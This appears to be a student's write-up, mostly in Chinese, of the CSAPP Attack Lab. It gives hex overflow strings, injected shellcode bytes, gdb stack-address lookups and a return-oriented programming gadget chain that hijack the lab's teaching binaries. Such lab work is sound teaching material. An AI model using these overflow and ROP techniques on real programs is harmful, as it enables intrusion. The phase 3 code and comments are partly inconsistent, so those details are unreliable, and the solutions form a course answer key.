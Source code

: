 ## Prepration
实验目的：
1、了解缓冲区溢出（stack discipline）
2、write code away from stack discipline
文件结构：
CSAPP-AttackLab
	AttackLab.md
	target1
		cookie.txt 一个8位16进制数，作为攻击的特殊标志符
		ctarget 代码注入攻击的目标文件
		farm.c 在ROP攻击中作为gadgets产生源
		hex2raw 将16进制数转化为攻击字符
		README.txt
		rtarget ROP攻击的目标文件
实验环境：
Centos8-Linux

# Phase1

objdump -d ./ctarget>>ctarget.s //反汇编
![](../imgs/Pasted image 20240620171305.png)
CI: run getbuf return to touch1 adress, touch1 adress : 0x4017c0
getbuf有40个字节的栈空间，所以注入代码应填为:
phase1_ans.txt:
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	00 00 00 00 00 00 00 00
	c0 17 40 00 00 00 00 00

--------------------------

# Phase2

![](../imgs/Pasted image 20240621112009.png) 

思路关键：在getbuf中给%rdi赋值cookie.txt中的0x59b997fa

```cpp
// in phase2.s
movq $0x59b997fa,%rdi
pushq  $0x4017ec
ret

gcc -c phase2.s -o phase2.o 
objdump -d phase2.o >phase2.txt 

// in phase2.txt

phase2.o：     文件格式 elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   9:	68 ec 17 40 00       	pushq  $0x4017ec
   e:	c3                   	retq   
```
因此，结合phase1进行缓存区溢出，即溢出区域地址返回到想要插入的%rsp地址，观察getbuf函数的代码，可知应在mov %rsp,%rdi后加入攻击代码，即<Gets>之前

![](../imgs/微信截图_20240621125123.png) 

通过gdb调试日志查询得到<Gets>时的$rsp值：

```
gdb ctarget
b getbuf
run -q
disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
=> 0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq   
End of assembler dump.
(gdb) p /x $rsp
$1 = 0x5561dc78
```

因此注入代码答案为：

48 c7 c7 fa 97 b9 59 68
ec 17 40 c3 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00

# Phase3

![](../imgs/微信截图_20240624163459.png) 

man ascii,

cookie: 59b997fa

str -> Hex: 

35 39 62 39 39 37 66 61

<test> -> $rsp: 0x5561dca8, 我们将字符串放在这里，保证getbuf里面的函数不覆盖字符串

disas touch3 -> touch3跳转地址为：0x4018fa

````
vim phase3.txt：

```
movq $0x59b997fa,%rdi

pushq  $0x4017ec

ret
```

gcc -c phase3.s -o phase3.o 
objdump -d phase3.o >phase3.txt 

phase3.o:     file format elf64-x86-64
Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
````

因此注入代码答案为：

48 c7 c7 a8 dc 61 55 00 //0x5561dc78, 注入代码，将字符串赋值给$rdi
fa 18 40 00 c3 00 00 00 // pushq $0x4018fa, 赋值%rsp，跳转touch3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 //0x5561dca0, 跳转到<Get>前
35 39 62 39 39 37 66 61 //0x5561dca8, 存储的字符串hex码

# Phase4

![](../imgs/微信截图_20240625161014.png) 

![image-20240625163114528](../imgs/image-20240625163114528.png)

```
objdump -d ./rtarget > rtarget.s
```

![image-20240625162404276](../imgs/image-20240625162404276.png) -> 0x4019ab

![image-20240625162827974](../imgs/image-20240625162827974.png) -> 0x4019a2

Talk is cheap, show me the code:

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 //跳转执行0x4019ab: popq %rax; req
fa 97 b9 59 00 00 00 00 // %rsp: cookie
a2 19 40 00 00 00 00 00 //跳转执行0x4019a2: movq %rax,%rdi; req
ec 17 40 00 00 00 00 00 //跳转到touch2
```

